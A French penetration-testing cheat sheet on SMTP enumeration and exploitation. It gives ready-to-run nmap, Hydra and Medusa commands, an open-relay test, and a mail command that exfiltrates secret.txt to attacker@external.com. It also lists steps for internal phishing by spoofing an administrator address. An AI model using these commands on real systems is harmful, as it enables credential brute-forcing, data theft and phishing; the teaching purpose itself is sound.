

Cette documentation détaille les méthodes d'énumération et d'exploitation du protocole **SMTP** dans le cadre d'une phase de reconnaissance.



## Détection du service SMTP

Le protocole **SMTP** opère généralement sur les ports 25, 465 (SMTPS) et 587 (SMTP AUTH).

### Scan avec Nmap

```bash
nmap -p 25,465,587 --script=smtp-commands,smtp-enum-users,smtp-open-relay target.com
```

> [!info]
> La commande **nmap** permet d'identifier les commandes supportées par le serveur, telles que **VRFY** ou **EXPN**, essentielles pour l'énumération.

## Analyse des vulnérabilités spécifiques aux versions (CVE)

Une fois la bannière identifiée, il est crucial de vérifier si la version du serveur (ex: Postfix, Exim, Sendmail) est vulnérable à des exploits connus.

```bash
# Identification de la version via bannière
nc -v target.com 25

# Recherche de vulnérabilités via Nmap
nmap -sV --script=smtp-vuln* -p 25 target.com
```

> [!tip]
> Consultez les bases de données **CVE** (ex: cve.mitre.org) ou utilisez `searchsploit` pour identifier des exploits d'exécution de code à distance (RCE) ou de dépassement de tampon associés à la version détectée.

## Test de connexion

La vérification manuelle de la connectivité permet d'interagir directement avec le service.

### Connexion Telnet (Non chiffré)

```bash
telnet target.com 25
```

### Connexion avec OpenSSL (TLS)

```bash
openssl s_client -starttls smtp -connect target.com:587
```

> [!warning]
> **Prérequis :** La connaissance des commandes **SMTP** de base (**HELO**/**EHLO**, **MAIL FROM**, **RCPT TO**, **DATA**) est indispensable pour le test manuel.

## Énumération des utilisateurs

Certaines configurations permettent de valider l'existence de comptes via les commandes **VRFY** et **EXPN**.

### Utilisation de VRFY et EXPN

```text
VRFY admin
EXPN staff
```

> [!note]
> Un code de réponse **250** indique que l'utilisateur ou le groupe existe sur le serveur. Un code **550** indique que l'utilisateur est inconnu.

### Automatisation avec Nmap

```bash
nmap --script=smtp-enum-users -p 25 target.com
```

## Techniques de bypass de filtrage SMTP

Si le serveur bloque certaines commandes ou adresses, des techniques de contournement peuvent être tentées.

- **Utilisation de caractères nuls :** Certains filtres peuvent être contournés en injectant des caractères nuls dans les commandes.
- **Manipulation du domaine :** Utilisation de sous-domaines ou de domaines mal formés dans la commande **EHLO** pour tromper les filtres de réputation.
- **Chiffrement :** Utilisation de **STARTTLS** pour encapsuler les commandes et éviter l'inspection profonde de paquets (DPI) par les pare-feu applicatifs.

## Bruteforce des comptes

Si le service **SMTP AUTH** est activé, il est possible de tenter une attaque par force brute.

### Utilisation de Hydra

```bash
hydra -L users.txt -P passwords.txt target.com smtp -V
```

### Utilisation de Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M smtp
```

> [!danger]
> **Danger :** Le bruteforce peut entraîner un blocage de compte (**Account Lockout**) ou une alerte sur le **SIEM**.

## Vérification de l'Open Relay

Un serveur configuré en **Open Relay** permet l'envoi d'emails sans authentification préalable.

### Test manuel via Telnet

```text
MAIL FROM:<test@attacker.com>
RCPT TO:<victim@external.com>
DATA
Subject: Test
Hello
.
```

### Scan avec Nmap

```bash
nmap --script=smtp-open-relay -p 25 target.com
```

> [!warning]
> **Attention :** L'utilisation d'un **open relay** peut être détectée par les systèmes de sécurité (**IDS**/**IPS**) et les listes noires.

## Exfiltration de données via SMTP

Si le serveur autorise l'envoi vers l'extérieur, il peut servir de canal pour exfiltrer des données.

```bash
# Envoi d'un fichier via SMTP
cat secret.txt | mail -s "Exfiltration" -S smtp=smtp://target.com:25 attacker@external.com
```

> [!tip]
> Cette technique est souvent utilisée pour contourner les règles de filtrage sortant qui bloquent les protocoles HTTP/HTTPS mais autorisent le trafic SMTP vers des serveurs de messagerie légitimes.

## Post-exploitation : Utilisation du relai pour le phishing interne

Un **Open Relay** permet d'usurper l'identité d'utilisateurs internes pour envoyer des emails de phishing crédibles.

1. **Usurpation :** Utiliser `MAIL FROM: admin@entreprise.com`.
2. **Ciblage :** Envoyer des emails aux employés avec des liens malveillants.
3. **Crédibilité :** L'email provient d'une adresse IP interne ou de confiance, augmentant le taux de succès.

## Extraction d'informations

L'interaction directe avec le service permet d'extraire des métadonnées sur la version du serveur et ses capacités.

### Bannière SMTP

```bash
nc target.com 25
```

### Commandes supportées

```text
EHLO target.com
```

## Synthèse des commandes

| Étape | Commande |
| :--- | :--- |
| Scanner SMTP | `nmap -p 25,465,587 --script=smtp-commands,smtp-enum-users,smtp-open-relay target.com` |
| Connexion Telnet | `telnet target.com 25` |
| Connexion SSL | `openssl s_client -starttls smtp -connect target.com:587` |
| Tester VRFY | `VRFY admin` |
| Tester EXPN | `EXPN staff` |
| Bruteforce | `hydra -L users.txt -P passwords.txt target.com smtp -V` |
| Tester Open Relay | `nmap --script=smtp-open-relay -p 25 target.com` |
| Commandes supportées | `EHLO target.com` |

Ces techniques s'inscrivent dans une démarche globale d'énumération réseau (**Network Enumeration**) et d'attaque par mot de passe (**Password Attacks**), souvent corrélées à une énumération **Active Directory Enumeration** plus large. Voir également les notes sur **SMTP Enumeration**.